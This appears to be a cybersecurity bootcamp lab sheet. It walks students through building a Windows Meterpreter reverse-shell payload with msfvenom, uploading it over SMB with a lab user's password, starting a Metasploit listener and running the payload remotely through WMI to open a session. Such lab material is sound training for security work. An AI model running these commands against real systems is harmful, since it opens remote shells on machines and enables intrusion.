 ## Activity File: msfvenom

In this activity, you will create a custom payload with `msfvenom`, transfer it to the designated host, and then run it with WMI.  

### Instructions

1. Make sure you're in your home directory and then generate a Windows Meterpreter payload using the following commands:

    - `cd ~`

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe > shell.exe`

    ![A screenshot depicts the results of the commands.](../../Images/msfvenom.PNG)

2. Next, use SMBClient in Kali to interact with the Windows machine's file system over SMB. To connect to the remote filesystem, type: `smbclient //172.22.117.20/C$ -U megacorpone/tstark`

    - This connects to the `C` drive on the remote machine as the user tstark. 

3. You will then be asked for a password. Input tstark's password: `Password!`

4. List the files in the current directory using the following command:

    - `ls`

    ![A screenshot depicts the results of the command.](../../Images/smbclient.PNG)

5. Upload your payload via the following command:

    - `put shell.exe`

    ![A screenshot depicts the results of the command.](../../Images/put.png)

    - Now that the payload is on the remote system, we can execute it using the WMI module in Metasploit. Before doing that, though, we need to ensure that Metasploit is listening for our payload to execute.

6. In Metasploit, select the `exploit/multi/handler` module, and configure it to match the payload settings by using the following commands:

    - `use exploit/multi/handler`

    - `set payload windows/meterpreter/reverse_tcp`

    - `set LHOST [IP ADDRESS]`

    - `set LPORT 4444`

    - `exploit -j`

    ![A screenshot depicts running these commands.](../../Images/multihandler.PNG)

    - **Note**: The `-j` argument in `exploit -j` means to run in the background. This ensures that our listener is constantly listening and we can use Metasploit with it listening in the background.

7. Now, switch to the WMI module.

    - `use scanner/smb/impacket/wmiexec`

8. Fill in the SMBPass, SMBUser, SMBDomain, and RHOSTS parameters, if not done already.
 
9. For COMMAND, put in the path of the payload that you uploaded on the remote machine. If you did not change directories when uploading via SMBClient, then the payload will be located in `C:\`.

    - `set COMMAND C:\shell.exe`

    ![A screenshot depicts the parameters all correctly set.](../../Images/parameters.PNG)

10. Run the module with the command `run`. The message "Meterpreter session 1 opened" should appear, as the following image shows:

    ![A screenshot depicts the results of the command.](../../Images/sessions.PNG)

    - **Note**: After the message appears, the exploit will seem to "hang." You can safely use Ctrl + C once to exit the prompt. Your session will still be opened.

11. To view active sessions, type `sessions` and select the session based on the ID via the following command:

     - `sessions -i [session ID]`

    ![A screenshot depicts the results of the command.](../../Images/sessionid.PNG)

Congratulations! You successfully created, transferred, and executed a custom payload on a Windows machine.

---
© 2022 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.



